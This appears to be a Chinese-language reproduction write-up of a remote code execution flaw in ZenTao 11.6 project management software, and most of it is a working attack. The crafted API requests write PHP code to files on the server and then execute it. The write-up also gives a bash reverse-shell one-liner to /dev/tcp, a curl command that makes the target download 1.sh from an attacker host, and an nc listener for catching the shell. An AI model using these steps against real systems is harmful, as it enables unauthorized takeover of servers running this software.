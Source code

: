 # 禅道 11.6 版本 RCE漏洞

>**Created by：** 一条‘小龍龙
>
>**Team：** TracelessSec
>
>**漏洞描述：** 禅道 11.6 版本  RCE漏洞


# 0x01 漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。 

# 0x02 影响范围

禅道 11.6

# 0x03 漏洞复现

利用上面的文件读取来执行命令

```bash
http://192.168.59.128/zentao/api-getModel-editor-save-filePath=/tmp/1111

fileContent=<?php phpinfo()?>
```

![Untitled](image/Untitled.png)

```
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/222/2#/
```

![Untitled](image/Untitled%201.png)

```
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('pwd');?>
```

![Untitled](image/Untitled%202.png)

```
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

![Untitled](image/Untitled%203.png)

桌面下新建1.sh脚本文件

```bash
bash -i >& /dev/tcp/192.168.81.188/8888 0>&1
```

![Untitled](image/Untitled%204.png)

开启python3 http服务

```bash
python3 -m http.server 8080
```

![Untitled](image/Untitled%205.png)

```bash
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('curl http://192.168.81.188:8080/1.sh -o /tmp/1.sh');?>
```

![Untitled](image/Untitled%206.png)

访问网址，以下载1.sh脚本文件

```bash
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

![Untitled](image/Untitled%207.png)

攻击机监听8888端口

```bash
nc -lnvp 8888
```

```bash
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('curl http://192.168.81.188:8080/1.sh -o /tmp/1.sh');?>
```

访问一下网址，等待目标主机反弹shell

```bash
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

反弹shell成功！

![Untitled](image/Untitled%208.png)

